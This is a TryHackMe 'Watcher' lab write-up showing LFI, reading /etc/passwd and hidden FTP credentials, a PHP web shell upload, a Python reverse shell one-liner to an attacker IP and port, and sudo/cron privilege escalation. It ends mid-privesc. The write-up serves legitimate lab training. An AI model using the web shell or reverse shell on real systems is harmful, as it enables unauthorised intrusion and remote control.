 * * *
  ### LAB: Watcher
  ### Platform: Tryhackme
* * *

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1c2bacb9-866f-4196-8396-8f1ae25a5c8d)

### ENUMERATION
- Rustscan's result

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/53ee1839-ed07-4ed4-96fa-808620998f5f)

- Directory fuzzing with ffuf
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8c9dd130-a75d-4e98-ae70-56f3a8a35d3b)

- While inspecting the source code,a url caught my attenttion,the url serves php fies to the website,it seems it uses the `include()
php method` to read files,the `include()` method is vulnerable to LFI which allows an attacker to read files on the server

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/16a7df9d-2b32-45ed-bff1-fd60a13232e7)

- My assumption was right,I was able to read the /etc/passwd file

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/213ddb3d-31f5-4e37-981a-ec3ae0e77ac0)

- Robots.txt indicates an hidden file `/secret_file_do_not_read.txt` but when I tried to read it,it flashed a `403 forbidden error`.
I was able to read it with the page vulnerable to lfi.The file revealed ftp credentials

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/35de7036-4afc-468f-93e4-720549c939d6)

- We have write permissions in a particular folder `files`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/55fe248a-39ad-471e-b1a4-19d9b1ceb79b)

- Since we can read files with lfi,we can upload a shell to the ftp server with the folder `files` and get rce,a typical php webshell
  will have this contents `<?php echo system($_GET['cmd']); ?>`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d50afd55-6824-4c75-a9fd-dca685ab10fa)

 - Rce gained
   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1d48d063-3156-442b-8880-c9ebb1616bbb)

- Pop a reverse shell with `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.158.229",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/19aedeef-e734-4a0e-aa59-4585199180df)

### ROAD TO PRIVESC

- `sudo -l` reveals that we can run commands as user toby e.g `sudo -u <command>`,we can move to toby's account with `sudo -u toby /bin/bash`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/2ea55e9f-d7a9-413c-bfd4-520ff86864e6)

- `cat /etc/crontab` reveals an active cron jobs running as user mat,user `toby` also has write permission to the script

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c9ea4332-ebc7-4223-8e9e-add3e93cb333)

- Adding `/bin/bash` to the sh file will switch us to user mat

